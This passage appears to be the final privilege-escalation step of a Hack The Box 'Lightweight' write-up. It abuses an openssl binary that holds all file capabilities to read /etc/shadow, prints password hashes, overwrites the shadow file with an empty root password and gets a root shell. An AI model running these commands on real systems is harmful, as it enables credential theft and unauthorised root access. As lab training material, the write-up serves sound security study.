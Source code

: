 ### Final privesc 

Checking caps again, we see the `openssl` binary in the current directory has caps set:

```
[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```

The `=ep` caps means the all capabilities are assigned to the file. We can read `/etc/shadow` with openssl by encrypting it to a file in our home directory, then decrypting it:

```
-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
[ldapuser1@lightweight ~]$ ./openssl aes-256-cbc -d -a -in shadow.enc -out shadow
enter aes-256-cbc decryption password:
[ldapuser1@lightweight ~]$ cat shadow
root:$6$eVOz8tJs$xpjymy5BFFeCIHq9a.BoKZeyPReKd7pwoXnxFNOa7TP5ltNmSDsiyuS/ZqTgAGNEbx5jyZpCnbf8xIJ0Po6N8.:17711:0:99999:7:::
[...]
ldapuser1:$6$OZfv1n9[v$2gh4EFIrLW5hZEEzrVn4i8bYfXMyiPp2450odPwiL5yGOHYksVd8dCTqeDt3ffgmwmRYw49c]MFueNZNOoI6A1.:17691:365:99999:7:::
ldapuser2:$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1:17691:365:99999:7:::
10.10.14.2:clJFBL7EDs1H6:17851:0:99999:7:::
10.10.14.13:qehr2qxjyEzkw:17874:0:99999:7:::
10.10.14.26:syd74YenpBuf6:17875:0:99999:7:::
10.10.14.12:pdfLwDAqvvWI2:17876:0:99999:7:::
10.10.14.23:owYEfkaBVoeFI:17876:0:99999:7:::
```

We probably can't crack the root hash because the HTB boxes typically have a very complex password for the root account but we can replace the shadow file with an empty root password:

```
[ldapuser1@lightweight ~]$ ./openssl aes-256-cbc -a -salt -in shadow -out shadow.enc
enter aes-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
[ldapuser1@lightweight ~]$ ./openssl aes-256-cbc -d -a -in shadow.enc -out /etc/shadow
enter aes-256-cbc decryption password:
[ldapuser1@lightweight ~]$ su -l root
Last login: Thu Dec  6 14:09:41 GMT 2018 on tty1
[root@lightweight ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[root@lightweight ~]# cat root.txt
f1d4e3...
```
